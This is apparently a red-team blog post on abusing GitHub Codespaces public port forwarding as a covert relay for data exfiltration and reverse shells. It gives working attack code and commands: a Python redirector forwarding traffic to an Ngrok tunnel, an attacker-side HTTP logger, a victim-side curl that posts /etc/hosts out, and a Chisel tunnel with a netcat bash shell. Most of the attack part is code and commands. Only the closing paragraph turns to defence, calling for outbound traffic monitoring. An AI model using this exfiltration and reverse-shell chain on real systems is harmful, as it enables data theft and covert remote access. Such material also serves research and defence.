---
date:
  created: 2025-04-18
categories:
  - Red Team
authors:
  - dibsy
---


## INTRODUCTION

GitHub Codespaces is a cloud-based development environment that allows developers to instantly spin up a fully configured, containerized VS Code environment directly from a GitHub repository. It eliminates the need for manual setup and ensures consistency across development environments by using devcontainers. With support for Visual Studio Code and browser-based editing, Codespaces enables fast onboarding, seamless collaboration, and streamlined CI/CD workflows, making it ideal for modern DevOps and remote development scenarios.

<!-- more -->

## KNOWN MALICIOUS OPERATIONS

Trend Micro was the first to report a known threat actor abusing this feature to automate malware hosting and delivery. By programmatically initiating Codespaces instances and configuring them to expose malicious payloads via public URLs, attackers bypass traditional detection mechanisms and exploit the trusted GitHub infrastructure to distribute malware efficiently  (ref: https://www.trendmicro.com/en_us/research/23/a/abusing-github-codespaces-for-malware-delivery.html). 

## ADVERSARIAL MINDSET

While analyzing these reports through an adversarial lens, I began to explore the feasibility of using GitHub Codespaces as a passive traffic redirector for data exfiltration to an attacker-controlled endpoint. Several factors make this an attractive vector: (1) GitHub is widely trusted and often whitelisted within enterprise networks, reducing the likelihood of outbound traffic being flagged or blocked; (2) infrastructure can be spun up rapidly using a free GitHub account, with no requirement for identity verification, credit card details, or billing information, enabling anonymous operation; and (3) the goal would be to design the redirection mechanism to remain stealthy, minimizing observable artifacts such as long-lived processes or anomalous outbound traffic patterns. This approach shifts the traditional use of Codespaces from code execution to covert network facilitation, leveraging GitHub’s trusted domain and infrastructure to mask adversarial activity.

One of its key features is the ability to expose running applications via forwarded ports. When an application inside the codespace listens on a specific port, GitHub detects it and allows you to forward that port, making the service accessible via a secure HTTPS URL. You can choose to keep the port private (visible only to you) or make it public, enabling easy sharing for testing, demos, or collaboration without needing to deploy the app to a remote server. This simplifies the development workflow, especially for web apps, APIs, and microservices.

When you open up a port like 3000 in GitHub Codespaces, a secure URL is automatically generated for you, such as https://potential-waffle-95vqxxpgjwrfpvrx-3000.app.github.dev. To allow others to access this URL, you need to explicitly make the port public. It's important to note that you don't access the application using a :3000 suffix in the URL (e.g., https://...app.github.dev:3000). Instead, GitHub handles the routing internally—when you visit the generated URL, the request is automatically forwarded to port 3000 inside your Codespace environment.

## DATA EXFILTRATION

Here’s a simplified overview of the data exfiltration flow over HTTPS:

- A curl request is issued from the compromised system, sending the exfiltration payload to a publicly accessible GitHub Codespaces URL.
- A lightweight redirector service running inside the Codespace receives the HTTPS request and forwards the data to an Ngrok tunnel endpoint.
- The Ngrok tunnel securely relays the data to the attacker’s local HTTP listener, effectively bridging the target environment to the attacker’s system via trusted cloud infrastructure.

!!! example "Diagram - exfiltrating using curl request to https://...fpvrx-9000.app.github.dev"
    

### Proof Of Concept

On the attacker’s machine, Ngrok is configured to expose a local HTTP listener by creating a secure public tunnel. Once initialized, Ngrok generates a publicly accessible IP:PORT (or domain) endpoint, which transparently forwards all incoming traffic from the github codespaces endpoint to the designated local port on the attacker’s system. Here in this example, ngrok is going to send the traffic to our local port on 1337.

!!! success "Setting up ngrok on Attacker Machine"
    ```
    ~$ ./ngrok tcp 1337
    ```

    

We will run an HTTP listener on port 1337 to capture all incoming HTTP traffic, allowing us to inspect and log the exfiltrated data as it arrives.

!!! success "Setting up HTTP Listener to run on Attacker Machine"

    ```python
    import argparse
    from http.server import BaseHTTPRequestHandler, HTTPServer
    from urllib.parse import parse_qs, urlparse
    import json

    class RequestLoggerHandler(BaseHTTPRequestHandler):
        def _log_request(self, method):
            print(f"\n--- {method} Request Received ---")
            print(f"Path: {self.path}")
            print(f"Headers:\n{self.headers}")

            # Log GET parameters
            if method == 'GET':
                query = urlparse(self.path).query
                params = parse_qs(query)
                print(f"GET Parameters: {json.dumps(params, indent=2)}")

            # Log POST/PUT body parameters
            if method in ['POST', 'PUT']:
                content_length = int(self.headers.get('Content-Length', 0))
                body = self.rfile.read(content_length).decode('utf-8')
                print(f"Raw Body: {body}")
                try:
                    # Try JSON first
                    data = json.loads(body)
                    print(f"Parsed JSON Body: {json.dumps(data, indent=2)}")
                except json.JSONDecodeError:
                    # Fall back to URL-encoded
                    data = parse_qs(body)
                    print(f"Parsed Form Body: {json.dumps(data, indent=2)}")

            # Send generic response
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b'Request received and logged.')

        def do_GET(self):
            self._log_request('GET')

        def do_POST(self):
            self._log_request('POST')

        def do_PUT(self):
            self._log_request('PUT')

        def do_DELETE(self):
            self._log_request('DELETE')

        def log_message(self, format, *args):
            # Suppress default logging
            return

    def run(port):
        server_address = ('', port)
        httpd = HTTPServer(server_address, RequestLoggerHandler)
        print(f"[*] Starting HTTP server on port {port}")
        httpd.serve_forever()

    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='Simple HTTP Logger Server')
        parser.add_argument('--port', type=int, default=8080, help='Port to listen on')
        args = parser.parse_args()
        run(args.port)

    ```

    Run the http listener code
    ```
    python3 server2.py --port 1337
    ```
    
    
Next, we’ll deploy a traffic redirector that listens on port 3000 within the Codespaces environment. This redirector will capture all incoming HTTP requests and seamlessly forward them to our Ngrok tunnel endpoint, effectively relaying the traffic to the attacker's local listener. This setup allows us to use Codespaces as an intermediary proxy, masking the true destination of the exfiltrated data.

!!! info "Setting up Traffic Redirector running on 3000 on Github Codespaces"
    ```python 
    import socket
    import threading

    # Configuration
    LISTEN_HOST = '0.0.0.0'
    LISTEN_PORT = 3000
    FORWARD_HOST = 'NGROK_IP'  # Change this to the target IP
    FORWARD_PORT = NGROK_PORT # Change this to the target port

    def forward(source, destination):
        try:
            while True:
                data = source.recv(4096)
                if not data:
                    break
                destination.sendall(data)
        except Exception as e:
            print(f"[!] Error during forwarding: {e}")
        finally:
            source.close()
            destination.close()

    def handle_client(client_socket):
        try:
            remote_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            remote_socket.connect((FORWARD_HOST, FORWARD_PORT))
            print(f"[+] Connection established: {client_socket.getpeername()} -> {FORWARD_HOST}:{FORWARD_PORT}")

            threading.Thread(target=forward, args=(client_socket, remote_socket)).start()
            threading.Thread(target=forward, args=(remote_socket, client_socket)).start()
        except Exception as e:
            print(f"[!] Failed to connect to remote host: {e}")
            client_socket.close()

    def start_server():
        server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server.bind((LISTEN_HOST, LISTEN_PORT))
        server.listen(5)
        print(f"[+] Listening on {LISTEN_HOST}:{LISTEN_PORT}")

        while True:
            client_socket, addr = server.accept()
            print(f"[+] Incoming connection from {addr}")
            threading.Thread(target=handle_client, args=(client_socket,)).start()

    if __name__ == "__main__":
        start_server()

    ```

    Run the redirector

    ```
    $ python3 redirector.py
    ```
    

    We will find new ports opening up and we need to make sure we have set the port visibility to public

    

Once the setup is complete, we can begin exfiltrating data. We'll retrieve the publicly accessible URL generated by the Codespace and use curl from the victim machine to send data payloads directly to this URL.

!!! danger "Exfiltrating from the Victims Machine"
    ```
    curl -X POST -d "$(cat /etc/hosts)" https://potential-waffle-95vqxxpgjwrfpvrx-3000.app.github.dev/
    ```
    

The redirector running inside the Codespace will forward the incoming data to the attacker’s Ngrok tunnel, which in turn relays it to the HTTP listener on the attacker’s machine. This multi-stage forwarding chain enables seamless and covert exfiltration by leveraging trusted infrastructure and cloud-based services to mask the true destination of the data.

!!! success "Data successfully exfiltrated to Attackers Machine"
    


## PIVOTING AND REVERSE SHELLS

In the previous example, we successfully exfiltrated data, but what about reverse shells? Achieving a reverse shell could have been straightforward if Codespaces permitted unrestricted traffic to open ports. Unfortunately, GitHub Codespaces only supports HTTP and HTTPS traffic, which limits the ability to establish reverse shells over other protocols. This restriction requires us to adapt our tactics and find creative solutions within the constraints of the available protocols.

### Objective

Our goal is to establish a reverse shell from the victim machine to the Codespaces environment, with all traffic MUST being routed through the Codespaces URL. This ensures that the connection is masked within the trusted GitHub infrastructure, circumventing direct detection and enhancing stealth during the attack.

!!! example "Diagram"
    

### Tools of Trade

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). https://github.com/jpillora/chisel. We are going to use Chisel as we are only limited to HTTP Traffic.

### Proof Of Concept

We initiate the activity by launching a Chisel server within the Codespaces environment, which will act as a reverse proxy endpoint. The victim machine will establish a connection to this server, allowing us to tunnel traffic through the Codespaces instance

!!! info "Start Chisel Server on the CodeSpaces"
    ```bash
    $ chisel server --reverse --port 9000
    ```
    

    We must enable the port visibility to public to allow incoming connection
    
    
    The url would look something like this https://potential-waffle-95vqxxpgjwrfpvrx-9000.app.github.dev/

The victim initiates the connection by running the Chisel client with reverse port forwarding enabled. The client connects to the attacker-controlled Chisel server hosted on GitHub Codespaces at ```https://potential-waffle-95vqxxpgjwrfpvrx-9000.app.github.dev:443```, authenticated using the provided fingerprint. The ```R:4444:127.0.0.1:4444``` argument tells Chisel to expose the victim’s local port 4444 to the attacker. This allows the attacker to connect to their own local port 4444, and have that traffic tunneled to the victim’s 127.0.0.1:4444 — where a reverse shell or Netcat listener is active—enabling remote command execution or data exchange.

!!! danger "Start Chisel Client on the Victim Machine"
    ```bash
    $ chisel client --fingerprint  YIP6qAUgZsh7ew96pP90iFmmDuY6Fs0kOQU11gj6zGw= https://potential-waffle-95vqxxpgjwrfpvrx-9000.app.github.dev:443 R:4444:127.0.0.1:4444
    ```
    
    Attacker (Chisel server) starts listening on 127.0.0.1:4444.
    When attacker connect to localhost:4444, Chisel sends your data securely over HTTPS to the Victim.
    The Victim’s Chisel client receives it and sends it to 127.0.0.1:4444 on its side (where the reverse shell or Netcat listener is running).

Once the client connection is successfully established, port 4444 is exposed on the Codespaces environment. This allows the attacker to interact with the forwarded port as if it were local to the Codespace, effectively bridging communication to the victim’s machine through the established tunnel.

!!! info "We will see a new port (4444) showing up in the CodeSpaces"
    

We’ll start a Netcat listener using the command nc -lvnp 4444 -e /bin/bash, which listens on port 4444 and spawns a /bin/bash shell upon connection. This allows us to receive a reverse shell from the victim machine once the Chisel tunnel is established.

!!! danger "Start a netcat reverse shell listener on Victim Machine"
    ```bash
    nc -lvnp 4444 -e /bin/bash
    ```
    

On the attacker’s machine, we need to run nc 127.0.0.1 4444 to establish a connection to the forwarded port. This will initiate the reverse shell, allowing us to gain command-line access to the victim machine through the Chisel tunnel.

!!! info "Connect to port 4444 on the Codespace Machine"
    ```
    nc 127.0.0.1 4444
    ```
    

## CLOSING NOTES

In summary, while GitHub Codespaces was designed to streamline development workflows, its trusted status, ease of deployment, and ability to expose public HTTP/HTTPS endpoints make it an attractive target for abuse in adversarial scenarios. We demonstrated how it can be repurposed as a traffic redirector for data exfiltration and even explored its potential for reverse shell communication—albeit constrained by its protocol limitations (HTTP/HTTPS only). However, it’s important to note that Codespaces are ephemeral by design; environments can be torn down after periods of inactivity, and exposed ports may become unstable or inaccessible over time. These factors introduce reliability challenges for long-running operations or persistent C2 channels. Nonetheless, the technique showcases how trusted cloud-based developer tools can be subverted for malicious use, reinforcing the need for tighter monitoring and outbound traffic controls even to seemingly benign services like GitHub.